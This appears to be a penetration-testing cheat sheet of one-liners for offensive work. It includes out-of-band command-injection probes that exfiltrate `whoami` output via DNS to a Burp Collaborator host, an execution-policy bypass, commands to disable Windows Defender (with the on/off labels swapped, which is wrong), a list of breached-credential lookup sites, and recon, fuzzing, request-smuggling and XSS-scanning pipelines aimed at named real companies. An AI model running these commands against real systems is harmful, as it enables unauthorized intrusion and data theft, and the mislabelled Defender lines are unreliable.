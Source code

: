 ping `whoami`.fexpwcppysiky1grj7mbodap5gb7zw.burpcollaborator.net
nslookup `whoami`.fexpwcppysiky1grj7mbodap5gb7zw.burpcollaborator.net


PowerShell.exe -ExecutionPolicy UnRestricted -File .runme.ps1

Turn on defender - Set-MpPreference -DisableRealtimeMonitoring $true
Turn off defender - Set-MpPreference -DisableRealtimeMonitoring $false

python2 -m SimpleHTTPServer + port(default 8000)
python3 -m http.server + port(default 8000)

 • https://leak.sx
 • http://scylla.sh
 • https://intelx.io
 • https://4iq.com
 • https://leaked.site
 • https://hashes.org
 • https://leakcheck.io
 • https://vigilante.pw
 • https://leakcheck.net
 • https://weleakinfo.to
 • https://leakcorp.com
 • https://leakpeek.com
 • https://rslookup.com
 • https://snusbase.com
 • https://ghostproject.fr
 • https://leakedsource.ru
 • https://leak-lookup.com
 • https://nuclearleaks.com
 • https://private-base.info
 • https://haveibeensold.app
 • https://breachchecker.com
 • https://www.dehashed.com
 • http://scatteredsecrets.com
 • https://haveibeenpwned.com
 • https://services.normshield.com
 • https://joe.black/leakengine.html



===========Open-source intelligence (OSINT)================
assetfinder -subs-only http://paypal.com -silent | httpx -timeout 3 -threads 300 --follow-redirects -silent | rush 'hakrawler -plain -linkfinder -depth 5 -url {}' | grep "paypal"

rush -j100 -i bitquark-subdomains-top100000.txt 'curl -s -L "https://dns.google.com/resolve?name{}.tesla.com&type=A&cd=true" | sed "s#\"#\n#g;s# #\n#g" | grep "tesla"' | sed 's#\.$##g' | anew teslaDomains 

rush -i /opt/recon/xxx/hostsAlive -j 10 'ffuf -o $(echo {} | unfurl domains) -w /opt/SecLists/Discovery/Web-Content/raft-large-files.txt -u "{}/FUZZ" -sf -ignore-body -mc 200 -t 300'

shodan domain http://sony.com | awk '{print $3}' | httpx -silent | rush -j 3 'python3 http://smuggler.py -u {}'

shodan domain TARGET | awk '{print $3}'| httpx -silent | xargs -I@ sh -c 'python3 http://xsstrike.py -u @ --crawl'
